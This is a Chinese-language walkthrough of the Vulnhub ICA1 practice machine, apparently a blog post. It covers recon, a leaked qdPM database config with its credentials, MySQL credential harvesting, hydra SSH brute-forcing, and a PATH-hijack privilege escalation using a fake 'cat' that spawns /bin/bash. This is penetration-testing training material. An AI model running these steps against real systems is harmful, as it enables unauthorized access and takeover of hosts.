 ```yaml
---

title: Vulnhub--ICA1
categories: [渗透靶场, Vulnhub]

---
```


## 渗透复现

1. Web站点CMS框架存在数据库文件泄露
2. 利用数据库文件泄露的数据进入数据库拿到用户名和登录密码
3. hydra进行ssh端口账号密码的爆破
4. 通过伪造文件，设置环境变量优先于root文件路径执行的方式，成功利用root文件提权

## 知识扩展

1. 进入数据库后敏感信息的收集
2. hydra爆破ssh端口
3. 伪造文件，通过设置环境变量优先执行方式提权

## 靶机地址

https://www.vulnhub.com/entry/ica-1,748/

## 主机发现

（1）攻击机

```python
192.168.88.128
```

（2）目标靶机

```python
192.168.88.134
```

## 信息收集

### 端口扫描

![image-20240828171115147](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281711212.png)

### 端口访问

![image-20240828171125496](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281711543.png)

### 目录扫描

![image-20240828171133643](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281711707.png)

### 目录爆破

![image-20240828171144306](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281711371.png)

### 目录访问

（1）/backups/

![image-20240828171200126](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281712168.png)

（2）/install/index.php?upgrade/

![image-20240828171210855](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281712899.png)

（3）/manual/index.html

![image-20240828171216679](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281712731.png)

（4）/readme.txt

![image-20240828171227581](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281712621.png)

（5）/template/plugins/

![image-20240828171237946](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281712996.png)

（6）/uploads/

![image-20240828171244747](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281712791.png)

## 实施攻击

（1）页面暴露了框架版本信息

![image-20240828171250839](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281712887.png)

（2）网上查询框架相关版本存在密码泄露漏洞，访问路径为

```python
/core/config/databases.yml
```

![image-20240828171258694](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281712749.png)

（3）尝试访问漏洞路径，拿到数据库的账号密码

```py
qdpmadmin
UcVQCMQk2STVeS6J
```

![image-20240828171306685](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281713732.png)

（4）登录数据库

```python
mysql -h 192.168.88.134 -u qdpmadmin -p 
UcVQCMQk2STVeS6J
```

![image-20240828171313348](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281713406.png)

（5）进行数据库信息收集，在staff数据库下收集到用户名和密码

```python
show databases;
select* from user;
select* from login;
```

![image-20240828171324304](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281713358.png)

![image-20240828171335076](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281713143.png)

（6）将密码进行base64解码过后，利用获取到的用户名和密码对ssh端口进行爆破（因为Web站点是邮箱登录，可以排除）

```python
#注意：需要将用户名的首字母改成小写
hydra -L user.txt -P key.txt ssh://192.168.88.134
```

![image-20240828171345831](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281713891.png)

![image-20240828171353397](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281713443.png)

![image-20240828171402769](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281714821.png)

（7）ssh远程登录

![image-20240828171411109](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281714171.png)

## 提权

（1）信息收集

![image-20240828174948493](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281749544.png)

（2）查找suid文件时，发现了不同寻常的文件/opt/get_access，cat查看该文件的时候出现乱码

![image-20240828171427017](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281714079.png)

（3）采用字符串读取的方式读取该文件

```python
strings 代替 cat
```

![image-20240828171439058](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281714110.png)

（4）get_access文件属主为root，并且该文件在运行过程中，执行了/root/system.info目录下的cat文件

![image-20240828171449489](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281714556.png)

（5）环境变量提权

```python
#因此，可以通过伪造cat文件，将伪造的cat文件路径设置为环境变量，实现文件执行截断提权
#因为在计算机系统中是文件的执行是根据环境变量的路径来寻找对应的可执行文件，并且是先找到谁就用谁。
#当伪造的cat文件路径设置成为环境变量之后，系统将优先执行伪造的cat文件，而不是/root/system.info目录下的cat文件
#在/tmp目录下创建cat文件，内容为/bin/bash
echo '/bin/bash' > /tmp/cat

#赋予/tmp/cat文件权限
chmod +x /tmp/cat

#将路径/tmp目录设置为环境变量，优先执行/tmp目录下的cat文件，从而实现提权
export PATH=/tmp:$PATH
```

![image-20240828171500103](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408281715150.png)